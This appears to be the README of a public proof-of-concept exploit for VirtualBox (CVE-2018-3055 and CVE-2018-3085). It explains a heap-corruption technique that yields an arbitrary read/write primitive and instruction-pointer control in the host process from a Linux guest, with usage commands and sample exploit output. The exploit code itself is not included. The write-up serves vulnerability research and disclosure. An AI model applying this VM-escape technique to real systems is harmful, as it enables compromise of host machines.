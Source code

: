 *Author*: Niklas Baumstark ([@_niklasb](https://twitter.com/_niklasb))

# CVE-2018-{3055,3085}

The exploit in `exploit.py` uses CVE-2018-3055
/ [ZDI-18-684](https://www.zerodayinitiative.com/advisories/ZDI-18-684/) & CVE-2018-3085
/ [ZDI-18-685](https://www.zerodayinitiative.com/advisories/ZDI-18-685/) to obtain
an arbitrary absolute read/write primitive, as well as RIP control in the VirtualBox
host process, for versions up to 5.2.14 with 3D acceleration enabled.

It is written for a Linux host & guest.

See [my blog post](https://phoenhex.re/2018-07-27/better-slow-than-sorry) for details
about these bugs.


## Explanation

We make heavy use of `CRVBOXSVCBUFFER_t` objects on the heap to achieve
a repeatable arbitrary write primitive. This type has the following layout:

```cpp
typedef struct _CRVBOXSVCBUFFER_t {
    uint32_t uiId;
    uint32_t uiSize;
    void*    pData;
    _CRVBOXSVCBUFFER_t *pNext, *pPrev;
} CRVBOXSVCBUFFER_t;
```

We can allocate and write to such a buffer via the HGCM function
`SHCRGL_GUEST_FN_WRITE_BUFFER`.  Aside from heap spraying, the exploit uses two
buffers called `master` and `victim`. It corrupts `master->pData` such that it
points to `victim`.  Afterwards we can repeatably set `victim->pData` by
writing to `master`.

We leak the address of a `CRConnection` object, containing the
`pHostBuffer` pointer from which data is transferred to the guest, as well as
multiple function pointers.

An arbitrary read is obtained by overwriting the `pHostBuffer` field of a
connection and then using the `SHCRGL_GUEST_FN_READ` HGCM call. RIP control is
obtained by overwriting the `Free` member, which is a callback used to free
messages.


## Usage

Run against a vulnerable version of VirtualBox, ideally between 5.2.0 and 5.2.14,
with 3D acceleration enabled. Guest additions should be installed in the guest
(otherwise you need to install them, which requires root privileges). For example:

```bash
$ VBoxHeadless -s <vmname> &
$ sudo gdb -p $(pgrep -f vmname) -ex c
```

Then run the exploit inside the guest:

```bash
$ ./exploit.py
[*] Header for buffer # 13660 is at 0x00007f7568423fb0 (master)
[*] Header for buffer # 14660 is at 0x00007f756843f4c0 (victim)
[*] Leaked CRConnection @ 0x00007f7568622c90
[*] Writer payload @ 0x00007f7568640f70
[*] Leaked crVBoxHGCMFree @ 0x00007f760072f4d0
[*] Verifying read/write primitive by writing 0xdeadbeefdeadbeef to 0x00007f7568640f80
you want RIP control? [y/n] y
```

At this point the VM process will crash at RIP = 0xdeadbeef, with controlled
data pointed to by RDI. Instead we could set RIP = `system` and specify an
arbitrary command, or pivot into a ROP chain to execute arbitrary shellcode.
This requires some dynamic resolving of function addresses however, or
hardcoding offsets.


## `trigger-CVE-2018-3085.py`

This is a simpler PoC which only triggers CVE-2018-3085 to cause a Chromium
message to be fetched from `0xdeadbeef`.
